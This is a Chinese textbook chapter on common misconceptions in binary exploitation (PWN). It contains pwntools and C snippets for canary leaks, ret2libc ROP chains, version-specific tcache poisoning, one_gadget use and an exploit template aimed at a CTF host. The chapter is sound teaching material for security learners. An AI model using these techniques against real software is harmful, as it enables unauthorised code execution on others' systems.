




# 第16章 二进制安全PWN —— 常见误区：认知陷阱与纠正

PWN（二进制漏洞利用）是网络安全中技术门槛最高的方向之一。初学者在学习过程中，由于缺乏实战经验和系统认知，极易形成各种错误的心智模型。这些误区不仅会拖慢学习进度，更会在关键时刻导致利用方案的失败。

本章梳理PWN学习中12个最常见的认知陷阱，从"为什么会产生这个误区"到"真实情况是什么"再到"正确做法是什么"，逐层拆解，帮助你建立准确的二进制安全心智模型。

---

## 误区一：PWN的核心就是写Exploit

### 误区描述

很多初学者将PWN等同于"写EXP"——拿到题目，找到溢出点，调用`system("/bin/sh")`，完事。他们花大量时间背诵pwntools模板，却忽略了EXP之前的工作。

### 为什么会有这个误区

pwntools等工具降低了EXP编写的门槛，很多入门教程直接给出"完整EXP"，让学习者误以为写EXP就是全部。CTF比赛中最终提交的也是一个EXP脚本，进一步强化了这个印象。

### 真实情况

一个完整的PWN流程包含五个阶段，编写EXP只是最后一步：


| 阶段 | 核心工作 | 典型工具 | 耗时占比 |
|------|----------|----------|----------|
| 信息收集 | 检查保护机制、分析ELF结构、识别libc | checksec、file、readelf | 5-10% |
| 逆向分析 | 理解程序逻辑、数据流、控制流 | IDA Pro、Ghidra、Binary Ninja | 30-40% |
| 漏洞定位 | 确定漏洞类型、触发条件、溢出长度 | GDB/pwndbg、动态追踪 | 20-30% |
| 利用方案设计 | 绕过防护、构造payload、选择gadget | ROPgadget、ropper | 15-20% |
| EXP编写 | 将方案转化为可执行脚本 | pwntools | 5-15% |

真正的高手和新手的差距不在EXP编写速度，而在逆向分析的准确度和利用方案的创造力。一个经验丰富的PWN选手可能花3小时分析、10分钟写EXP；而新手可能花10分钟"找到溢出"，然后卡3小时不知道怎么利用。

### 正确做法

1. **培养逆向能力**：熟练使用IDA Pro或Ghidra，能够阅读反汇编代码、识别数据结构和控制流
2. **训练漏洞敏感度**：看到`strcpy`、`gets`、`read`等函数时能立刻意识到潜在风险
3. **理解程序全貌**：不要只盯着漏洞函数，要看整个程序的逻辑——有没有辅助功能可以泄露信息？有没有其他漏洞可以配合利用？
4. **先设计再编码**：在纸上或脑中完整推演利用方案后，再开始写EXP

---

## 误区二：发现栈溢出就能Get Shell

### 误区描述

"这个程序有栈溢出，直接覆盖返回地址跳转到`system("/bin/sh")`就行了。"这是初学者最常见的天真想法。

### 为什么会有这个误区

入门教程通常使用关闭所有保护的程序做演示（`gcc -fno-stack-protector -z execstack -no-pie`），让学习者体验到"一溢出就能拿shell"的快感，却没告诉他们这和现实差距有多大。

### 真实情况

现代Linux系统默认开启多种防护机制，每种都会阻断最简单的利用路径：

| 防护机制 | 作用 | 阻断效果 | 绕过思路 |
|----------|------|----------|----------|
| **Stack Canary** | 在返回地址前放置随机值，溢出时检测是否被篡改 | 直接终止程序（`*** stack smashing detected ***`） | 泄露canary值、暴力破解（fork型程序）、覆盖`__stack_chk_fail`的GOT |
| **NX (DEP)** | 标记栈/堆为不可执行 | 注入shellcode后跳转执行会触发段错误 | ROP、ret2libc、JIT Spraying |
| **ASLR** | 每次运行随机化libc/栈/堆的基地址 | 不知道`system`和`"/bin/sh"`的地址 | 泄露某个已知函数地址，计算偏移 |
| **PIE** | 随机化程序自身的加载基址 | 不知道程序中gadget和数据的地址 | 泄露程序基址（如通过格式化字符串） |
| **Full RELRO** | 启动时立即绑定所有GOT条目并设为只读 | 无法通过GOT覆写劫持控制流 | 只能通过其他途径（如vtable劫持、栈溢出） |

以一个开启Canary + NX + ASLR的栈溢出程序为例，完整的绕过链如下：



具体例子——泄露Canary后ret2libc：

```python
from pwn import *

elf = ELF('./vuln')
p = process('./vuln')

# 第一步：泄露Canary（假设已知偏移为72字节，第73-80字节是canary）
payload = b'A' * 72 + b'B'  # 只覆盖canary的最低字节，触发输出
p.sendafter('input:', payload)
# ... 解析输出获取canary值

# 第二步：泄露libc地址（利用puts或write打印某个已解析的GOT条目）
payload = b'A' * 72
payload += p64(canary)       # 正确的canary
payload += p64(0)            # saved rbp
payload += p64(pop_rdi)      # gadget: pop rdi; ret
payload += p64(elf.got['puts'])  # puts的GOT地址
payload += p64(elf.plt['puts'])  # 调用puts打印其真实地址
payload += p64(elf.sym['main'])  # 返回main再次利用

# 第三步：计算libc基址，调用system("/bin/sh")
libc_base = leaked_puts - libc.sym['puts']
system = libc_base + libc.sym['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

### 正确做法

1. **先`checksec`**：任何题目拿到手第一件事是检查保护机制
2. **逐层突破**：列出所有开启的保护，针对每个设计绕过方案
3. **组合利用**：现代题目往往需要多个漏洞配合（如格式化字符串泄露canary + 栈溢出覆盖返回地址）
4. **理解而不是记忆**：不要背"Canary绕过步骤"，要理解canary的工作机制（存在哪里、怎么检查、为什么泄露有效）

---

## 误区三：堆利用一定比栈溢出难

### 误区描述

"堆利用太复杂了，House of系列技术看得头大，初学者应该先只学栈溢出。"

### 为什么会有这个误区

传统的堆利用教程从glibc malloc源码讲起，动辄上千行源码分析，确实劝退。再加上House of Orange、House of Spirit等名称听起来就很"高级"，初学者自然产生畏惧心理。

### 真实情况

glibc 2.26引入tcache后，最基础的堆利用（tcache poisoning）其实比栈溢出更简单：

**栈溢出（开启保护时）需要：**
- 精确计算溢出偏移（可能需要调试多次）
- 泄露canary（需要合适的输出函数）
- 找到合适的gadget（需要ROPgadget搜索）
- 处理栈对齐问题（16字节对齐）
- 构造ROP链（可能需要stack pivot）

**Tcache poisoning（glibc 2.26-2.28）需要：**
```c
// 核心原理：free后tcache链表的fd指针未加密
// 只需修改fd指针，再次malloc就能分配到任意地址
int main() {
    char *a = malloc(0x20);  // 分配一个chunk
    char *b = malloc(0x20);  // 防止与top chunk合并
    
    free(a);                    // a进入tcache，fd指向NULL
    *(size_t*)a = 0xdeadbeef;  // 修改fd为任意地址
    malloc(0x20);               // 取出a
    char *c = malloc(0x20);     // 分配到0xdeadbeef！
    // 现在c指向0xdeadbeef，可以任意写该地址
}
```

对比来看，堆利用的门槛被高估了。真正难的是高级堆利用技术（如House of系列），但入门级堆利用在特定glibc版本下反而更直接。

### 建议的学习路径



### 正确做法

1. **不要自我设限**：堆利用不是"高级技能"，tcache基础利用可以在学完栈溢出后直接上手
2. **从glibc 2.27开始练习**：这个版本有tcache但没有safe linking，是最友好的入门版本
3. **理解数据结构而非背诵步骤**：重点理解chunk的结构（prev_size、size、fd、bk）和bin链表的工作方式
4. **配合源码阅读**：glibc malloc的源码虽然长，但核心逻辑集中在`_int_malloc`和`_int_free`两个函数

---

## 误区四：只学x86/x64就够了

### 误区描述

"我是Linux桌面用户，只需要学x86_64架构的PWN技术，ARM/MIPS那些是嵌入式的事。"

### 为什么会有这个误区

CTF比赛中绝大多数PWN题都是x86_64架构，入门教程也默认使用x86_64。学习者在自己的电脑上编译、调试都是x86_64，自然形成"这个架构就是全部"的认知。

### 真实情况

现实世界中的漏洞存在于各种架构中，而且攻击面远比x86_64大：

| 架构 | 应用场景 | 安全研究价值 | 特殊挑战 |
|------|----------|-------------|----------|
| **x86_64** | 桌面/服务器 | 最成熟的工具链和利用技术 | 防护机制最完善 |
| **ARM (AArch64)** | Android/iOS/嵌入式 | 移动设备攻击面巨大 | 调用约定不同（X0-X7传参）|
| **MIPS** | 路由器/IoT设备 | 大量老旧设备无更新 | 大小端序、延迟槽 |
| **RISC-V** | 新兴嵌入式/AI芯片 | 安全研究空白，机会多 | 生态不成熟，工具少 |
| **PowerPC** | 部分服务器/车载系统 | 特定行业需求 | 指令集复杂 |

不同架构的核心差异体现在：

**调用约定差异（影响payload构造）：**

| 架构 | 参数传递 | 返回地址位置 | 特殊注意事项 |
|------|----------|-------------|-------------|
| x86_64 | RDI, RSI, RDX, RCX, R8, R9 | 栈上 | 需要`pop rdi; ret`等gadget |
| x86 | 栈上传参 | 栈上 | 直接栈布局即可 |
| ARM | X0-X7 | 链接寄存器LR | 需要ROP到寄存器控制 |
| MIPS | $a0-$a3 | 栈上（通过$ra） | 延迟槽、需要`jr $ra` gadget |

**ARM利用示例（调用`system("/bin/sh")`）：**
```python
from pwn import *

# ARM架构：参数通过X0-X7传递
# 需要gadget: pop x0; ret 或 ldr x0, [sp]; ret
payload = b'A' * offset
payload += p64(pop_x0)      # 控制X0寄存器
payload += p64(bin_sh_addr)  # "/bin/sh"字符串地址
payload += p64(system_addr)  # system函数地址
```

### 正确做法

1. **先精通x86_64**：这是基础，工具链最完善，学习资源最丰富
2. **然后学ARM**：实用性最高（Android/嵌入式），很多概念可以迁移
3. **了解MIPS**：IoT安全的重要方向，CTF中也有MIPS题
4. **关注RISC-V**：新兴架构，安全研究的蓝海
5. **核心原理通用**：栈溢出、堆利用、ROP等原理在所有架构上都是相通的，只是寄存器名和调用约定不同

---

## 误区五：libc版本不重要

### 误区描述

"知道libc基地址就行了，具体是2.27还是2.35有什么关系？"

### 为什么会有这个误区

入门教程通常直接提供libc文件，学习者不需要自己确定版本。在同一个版本下反复练习时，自然不会意识到版本差异的重要性。

### 真实情况

libc版本对PWN的影响是全方位的，同一个漏洞在不同libc版本下可能需要完全不同的利用方案：

| libc版本 | 重要变化 | 对利用的影响 |
|----------|----------|-------------|
| 2.23及以下 | 无tcache，fastbin无校验 | fastbin attack最简单 |
| 2.26-2.27 | 引入tcache，fd无加密 | tcache poisoning极简单 |
| 2.29 | tcache引入key字段（double free检测） | 需要先覆盖key才能double free |
| 2.31 | tcache增加更多检查 | 利用条件更严格 |
| 2.32 | 引入safe linking（fd指针异或加密） | tcache/fastbin poisoning需要先泄露堆地址 |
| 2.34 | 移除`__free_hook`等hook函数 | 不能通过hook劫持控制流，需要新思路 |
| 2.35+ | 进一步加固 | 需要IO_FILE等更高级技术 |

**一个真实的差异示例——同一个tcache poisoning：**

```c
// glibc 2.27: 直接写fd指针即可
free(a);
*(size_t*)a = target_addr;  // 直接写，无校验

// glibc 2.29: 需要先清除key字段
free(a);
// a->key 存在于 chunk + 0x18 (64位)
*(size_t*)(a + 0x18) = 0;    // 先清除key
*(size_t*)a = target_addr;   // 再修改fd

// glibc 2.32+: fd被safe linking加密
free(a);
// fd实际存储值 = (fd >> 12) ^ &a
leaked_heap_addr = ...;  // 需要泄露堆地址
encrypted_fd = (target_addr >> 12) ^ leaked_heap_addr;
*(size_t*)a = encrypted_fd;
```

**one_gadget的版本依赖性：**

同一个libc中的one_gadget地址因版本而异，且约束条件不同：

```text
# libc 2.27 中的one_gadget
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

# libc 2.31 中的one_gadget（地址和约束完全不同）
0xe6c7e execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
```

### 正确做法

1. **确定版本是第一步**：拿到题目后，在checksec之后立即确定libc版本
2. **使用libc-database**：泄露任意一个函数的地址，即可查询libc版本

```bash
# 通过泄露的puts地址查询libc版本
# 在线：https://libc.blukat.me/
# 本地：libc-database工具
./find puts 0x7f8a12345678
# 输出：libc6_2.27-3ubuntu1_amd64

# 或使用pwn lib库
from pwn import *
libc = LibcSearcher('puts', leaked_puts_addr)
```

3. **使用题目提供的libc调试**：远程环境用的是题目libc，本地也必须用同一个

```bash
# 使用patchelf指定libc和ld
patchelf --set-interpreter ./ld-2.27.so --set-rpath ./ ./vuln
# 或使用LD_PRELOAD
LD_PRELOAD=./libc-2.27.so ./vuln
```

4. **关注glibc changelog**：了解每个版本引入的安全检查，这直接影响利用方案

---

## 误区六：背诵利用模板就能应付一切

### 误区描述

"我把House of Orange、House of Spirit、ret2csu、ret2dlresolve都背熟了，遇到题目直接套用。"

### 为什么会有这个误区

CTF社区确实存在"模板化"倾向——很多writeup给出固定的利用流程，学习者背下来就能做类似的题。这在练习阶段有效，但形成了错误的依赖。

### 真实情况

模板的问题在于它描述的是"what"（做什么）而非"why"（为什么这么做）。不理解原理的模板套用在以下场景会失效：

1. **题目做了微调**：CTF出题者会故意修改一个关键细节（如改变chunk大小、调整数组索引），让标准模板不适用
2. **防护升级**：glibc引入新检查后，旧的House of系列可能完全失效
3. **真实漏洞**：实际软件的漏洞不会按照CTF题目那样"设计"，需要根据具体情况灵活调整
4. **新利用技术**：当面对未知的利用场景时，只有理解原理才能创新

**一个具体例子——House of Lore的理解层次：**

**背诵层次（表面）：**
```text
1. malloc一个chunk A（不在smallbin中）
2. 修改A的bk指针为fake_chunk
3. 设置fake_chunk的fd为smallbin头
4. malloc触发smallbin分配，返回fake_chunk地址
```

**理解层次（本质）：**
```text
核心原理：smallbin的分配逻辑是取bin->bk指向的chunk，
         并且只检查chunk->fd == bin。
         所以只要伪造一个chunk，使其fd指向bin，
         让其成为bin->bk的前一个节点，
         malloc就会分配到我们伪造的地址。

这个原理意味着：
- 只要是通过链表遍历取chunk的bin，都可能被类似手法利用
- 检查越少的分配路径，利用越简单
- 理解了遍历方向（从bk到fd），就能推导出需要控制哪些字段
```

### 正确做法

1. **每个技术都问三个问题**：
   - 这个技术利用了malloc/free的哪个行为？
   - 它依赖哪些前提条件？
   - 哪些检查会阻断它？怎么绕过？

2. **从源码层面理解**：

```c
// 以tcache为例，理解为什么double free有效
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx) {
    tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
    e->key = tcache_key;           // 2.29+ 引入
    e->next = tcache->entries[tc_idx];  // fd指向当前链表头
    tcache->entries[tc_idx] = e;   // 更新链表头为当前chunk
}

// 没有检查chunk是否已在tcache中（2.26-2.28）
// 所以double free可以让同一个chunk进入链表两次
// 修改第一个chunk的fd就能控制分配目标
```

3. **练习变体题**：做完一道标准题后，尝试修改源码增加一个检查，然后重新设计利用方案
4. **建立"原理库"而非"模板库"**：记录的不是步骤，而是"利用了什么机制"

---

## 误区七：不需要学操作系统底层知识

### 误区描述

"PWN就是漏洞利用技术，学好pwntools和ROP就行了，操作系统原理是开发者的课。"

### 为什么会有这个误区

很多PWN教程直接教"怎么做"，不解释"为什么能这么做"。学习者按照教程操作成功后，误以为不需要理解底层机制。

### 真实情况

PWN的每一个关键技术都深度依赖操作系统知识。不理解底层，你就无法理解利用为什么有效，更无法应对新场景：

| PWN技术 | 依赖的OS知识 | 不理解会怎样 |
|---------|-------------|-------------|
| ROP | 函数调用约定、栈帧结构、ret指令语义 | 不知道为什么栈上布局能控制执行流 |
| ret2libc | 动态链接、PLT/GOT、延迟绑定 | 不知道为什么跳转到PLT能调用libc函数 |
| ASLR绕过 | 内存映射、mmap、地址空间布局 | 不理解为什么泄露一个地址能推算出基址 |
| Shellcode | 系统调用机制、syscall指令 | 不知道shellcode怎么和内核交互 |
| SROP | 信号处理机制、sigreturn系统调用 | 完全不理解SROP的原理 |
| 堆利用 | 堆管理器、brk/mmap系统调用 | 只会背步骤，遇到新版本就废 |
| IO利用 | FILE结构体、虚表机制 | 不理解为什么改vtable能劫持控制流 |
| 沙箱绕过 | seccomp、系统调用表 | 不知道哪些系统调用可用 |

**一个关键例子——不理解PLT/GOT就无法做ret2libc：**

```mermaid
graph LR
    subgraph 程序代码
        A[call puts@plt]
    end
    subgraph PLT[PLT表]
        B[puts@plt: jmp *GOT[puts]]
        C[puts@plt+6: push index; jmp PLT0]
    end
    subgraph GOT[GOT表]
        D[GOT[puts]: 0x7f...真实地址]
    end
    A --> B
    B --> D
    C -->|首次调用| E[动态链接器]
    E --> D
```

**第一次调用流程：**
1. `call puts@plt` 跳转到PLT条目
2. PLT条目跳转到GOT中存储的地址
3. 首次调用时GOT存的是PLT+6（即下一条指令）
4. 压入符号索引，跳转到PLT[0]
5. PLT[0]调用动态链接器解析`puts`的真实地址
6. 将真实地址写入GOT，后续调用直接跳转

**PWN利用：** 因为GOT存储了真实地址且可写（Partial RELRO时），我们可以：
- 读取GOT泄露libc地址（配合信息泄露漏洞）
- 覆写GOT劫持函数调用（将`puts@GOT`改为`system`的地址）

### 正确做法

1. **必学基础**：
   - x86_64汇编指令集（至少50条常用指令）
   - ELF文件格式（section、segment、符号表、重定位表）
   - Linux进程内存布局（text/data/bss/heap/stack/mmap）
   - 动态链接机制（PLT/GOT/ld.so）
   - 系统调用机制（syscall指令、系统调用号）
   - 信号处理（signal handler、sigframe）

2. **推荐资源**：
   - 《程序员的自我修养——链接、装载与库》：理解ELF和动态链接的最佳书籍
   - 《深入理解计算机系统》(CSAPP)：体系结构和OS基础
   - Linux内核源码中的`fs/binfmt_elf.c`：理解ELF加载过程

3. **实践验证**：
   - 用GDB单步跟踪一次完整的函数调用，观察栈帧变化
   - 用`readelf -r`查看重定位表，理解PLT/GOT的关系
   - 编写一个简单的shellcode，用strace观察系统调用

---

## 误区八：本地打通了远程就一定能打通

### 误区描述

"我的EXP在本地弹shell了，直接打远程肯定没问题。"

### 为什么会有这个误区

本地调试和远程执行看起来都是"运行同一个程序"，初学者容易忽略环境差异。在入门阶段，题目通常提供libc和ld，环境差异不大，所以很少遇到本地通远程不通的情况。

### 真实情况

本地和远程的差异可能来自多个层面：

| 差异来源 | 具体表现 | 影响 |
|----------|----------|------|
| **libc版本** | 本地用系统libc，远程用题目libc | 偏移完全不同，one_gadget失效 |
| **ASLR熵** | 远程可能32位ASLR（栈熵更高） | 需要更多泄露或爆破次数 |
| **栈对齐** | 不同环境栈初始对齐可能不同 | `movaps`指令要求16字节对齐，不对齐会crash |
| **网络延迟** | 本地几乎无延迟，远程有网络延迟 | 时序敏感的交互可能失败 |
| **缓冲区差异** | 编译器版本、优化级别不同 | 布局可能有细微差异 |
| **内核版本** | syscall行为可能有差异 | 如`execve`的参数传递方式 |
| **环境变量** | `environ`位置不同 | 影响栈上的地址计算 |

**最典型的坑——栈对齐问题：**

```python
# 本地测试正常，远程crash，大概率是栈对齐问题
# system()内部调用movaps指令，要求RSP 16字节对齐

# 解决方法：加一个ret gadget（相当于NOP，但调整栈对齐）
payload = b'A' * offset
payload += p64(ret_gadget)   # 多一个ret，调整栈对齐
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
```

**libc版本导致的one_gadget失效：**

```bash
# 本地用系统libc 2.35
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbx, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

# 远程用题目libc 2.27
$ one_gadget ./libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

# 地址完全不同，约束也不同
# 如果用本地的one_gadget地址打远程，必然失败
```

### 正确做法

1. **始终使用题目提供的libc和ld**：

```bash
# 方法一：patchelf（推荐）
patchelf --set-interpreter ./ld-2.27.so ./vuln
patchelf --set-rpath . ./vuln

# 方法二：LD_PRELOAD
LD_PRELOAD=./libc-2.27.so LD_LIBRARY_PATH=. ./vuln

# 方法三：Docker容器（最可靠，与远程环境完全一致）
docker run -it --rm -v $(pwd):/chal ubuntu:18.04
```

2. **远程libc识别**：
```python
# 如果题目没提供libc，泄露地址后查询
from pwn import *
context.log_level = 'debug'  # 调试时开启详细日志

# 使用DynELF或LibcSearcher自动识别
libc = LibcSearcher('puts', leaked_addr)
libc_base = leaked_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
```

3. **处理栈对齐**：在ROP链开头加一个`ret` gadget作为保险
4. **处理网络延迟**：使用`sendafter`而非`sendlineafter`，或者加入适当的`sleep`

```python
# 稳健的远程交互模式
from pwn import *
p = remote('challenge.ctf.com', 1337)

# 等待提示后再发送
p.recvuntil(b'input: ')
p.send(payload)

# 如果有时序问题，加延迟
sleep(0.5)
p.send(next_payload)
```

---

## 误区九：二进制安全只和CTF有关

### 误区描述

"PWN就是CTF比赛的技术，工作后用不到，不如去学Web安全。"

### 为什么会有这个误区

国内安全行业中Web安全和渗透测试的岗位确实更多。CTF比赛是学习PWN的主要场景，学习者容易将PWN等同于CTF竞技。

### 真实情况

PWN技术在现实世界中的应用远比想象中广泛：

| 应用场景 | 具体工作 | 技术需求 |
|----------|----------|----------|
| **漏洞研究** | 在浏览器、内核、系统库中发现0day | 逆向分析、fuzzing、利用开发 |
| **漏洞赏金** | Chrome、Safari、Windows等产品的Bug Bounty | 漏洞利用链构造 |
| **红队行动** | APT攻击中使用二进制漏洞突破边界 | 漏洞利用、免杀、持久化 |
| **恶意软件分析** | 分析勒索软件、APT武器的利用技术 | 漏洞利用原理、Shellcode分析 |
| **安全产品开发** | WAF、EDR、沙箱的开发和测试 | 深入理解攻击手法 |
| **内核安全** | 内核漏洞挖掘和利用 | 内核PWN技术 |
| **浏览器安全** | V8/SpiderMonkey引擎漏洞 | 堆利用、JIT相关 |
| **固件安全** | IoT设备固件提取和漏洞分析 | MIPS/ARM架构PWN |

**实际薪资参考（2024-2025年国内）：**

| 岗位方向 | 技术要求 | 薪资范围 |
|----------|----------|----------|
| 漏洞研究员（初级） | 能分析CVE、写PoC | 15-25K/月 |
| 漏洞研究员（高级） | 能挖掘0day、构造利用链 | 30-60K/月 |
| 安全研究员（浏览器/内核） | 精通特定方向的漏洞研究 | 40-80K/月 |
| 红队工程师（二进制方向） | 漏洞利用+武器化开发 | 25-50K/月 |

### 正确做法

1. **CTF是起点不是终点**：CTF培养的是基础能力，但要向真实世界迁移
2. **关注真实CVE**：定期阅读CVE公告和利用分析，理解真实漏洞和CTF题的区别
3. **选择细分方向**：浏览器安全、内核安全、IoT安全、移动安全——选一个深入
4. **参与开源安全项目**：如AFL++、pwndbg、pwntools等项目贡献代码

---

## 误区十：手动调试就够了，不需要自动化

### 误区描述

"GDB手动调试就够了，自动化工具容易出错，手动更可靠。"

### 为什么会有这个误区

初学者在简单题目上确实不需要自动化。手动调试给了学习者一种"一切尽在掌握"的安全感，而自动化工具的学习曲线让他们觉得"麻烦"。

### 真实情况

在以下场景中，手动调试完全不够用：

1. **CTF比赛的时间压力**：一个PWN题可能只有30-60分钟解题时间，手动构造payload会浪费大量时间
2. **处理fuzzing结果**：AFL可能产生上万个crash样本，手动分析不现实
3. **复杂利用链**：一个完整的利用链可能包含十几步交互，手动操作容易出错
4. **重复性工作**：同一个利用框架在不同目标上重复使用

**效率对比——同一个栈溢出题：**

```python
# 手动方式（GDB + 手写payload）
# 1. GDB找溢出偏移：手动输入不同长度的字符串，观察RIP = 15-30分钟
# 2. 手动计算libc地址：查找偏移、计算 = 10-20分钟
# 3. 手动构造payload：写代码、调试 = 15-30分钟
# 总计：40-80分钟

# 自动化方式（pwntools + 自动化脚本模板）
from pwn import *

# 自动找偏移
io = process('./vuln')
io.send(cyclic(200))
io.wait()
core = io.corefile
offset = cyclic_find(core.read(core.rsp, 4))
# 或使用 cyclic_gen 自动计算

# 自动匹配libc
libc = LibcSearcher('puts', leaked_addr)

# 自动生成payload
payload = flat(b'A' * offset, ret, pop_rdi, bin_sh, system)
# 总计：10-20分钟
```

### 必备工具链

| 工具 | 用途 | 优势 |
|------|------|------|
| **pwntools** | EXP编写框架 | 自动化payload构造、libc搜索、远程交互 |
| **pwndbg** | GDB增强插件 | 堆分析、内存搜索、自动识别数据结构 |
| **one_gadget** | 查找libc中的one_gadget | 一行命令找到可用的magic gadget |
| **ROPgadget / ropper** | ROP gadget搜索 | 快速找到`pop rdi; ret`等关键gadget |
| **seccomp-tools** | 沙箱规则分析 | 可视化展示哪些系统调用被禁止 |
| **angr** | 符号执行引擎 | 自动求解输入满足特定路径条件 |
| **pwninit** | 自动化环境配置 | 自动patchelf、下载libc、生成模板脚本 |
| **libc-database** | libc版本识别 | 通过泄露地址反查libc版本 |

**自动化脚本模板（推荐每次做题时使用）：**

```python
#!/usr/bin/env python3
from pwn import *

# ===== 配置区域 =====
context.arch = 'amd64'
context.log_level = 'debug'

elf = ELF('./vuln')
libc = ELF('./libc.so.6')  # 如果有题目libc

if args.REMOTE:
    p = remote('challenge.ctf.com', 1337)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript='''
        b main
        b *vuln+42
        c
    ''')
else:
    p = process(elf.path)

# ===== 工具函数 =====
def sla(delim, data):
    p.sendlineafter(delim, data)

def sa(delim, data):
    p.sendafter(delim, data)

def leak(addr):
    """泄露指定地址的内容"""
    pass  # 根据题目实现

# ===== 漏洞利用 =====
def exploit():
    # Step 1: 信息泄露
    # ...
    
    # Step 2: 构造payload
    # ...
    
    # Step 3: 获取shell
    # ...
    
    p.interactive()

if __name__ == '__main__':
    exploit()
```

### 正确做法

1. **从第一个题目就建立模板**：用上面的模板作为起点，逐步完善成自己的工具库
2. **学会pwndbg的高级功能**：`vis_heap_chunks`（堆可视化）、`bins`（查看freelist）、`search`（内存搜索）
3. **积累gadget集合**：维护一个常用gadget的笔记，包括`ret2csu`的通用gadget
